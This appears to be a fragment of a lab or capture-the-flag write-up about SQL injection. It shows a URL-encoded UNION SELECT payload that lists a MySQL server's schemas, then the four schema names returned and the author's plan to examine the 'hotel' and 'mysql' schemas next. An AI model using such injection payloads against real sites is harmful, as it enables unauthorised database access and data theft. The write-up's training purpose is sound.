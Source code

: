 ![](./IMG/34.png)

```
100%20UNION%20SELECT%201,group_concat(schema_name),3,4,5,6,7%20From%20information_schema.schemata;--%20-
```
> Like the following image, there are 4 schema

1. hotel
2. Informaition_schema
3. mysql
4. performance_schema
> According to the past experience, I should check hotel and mysql first.

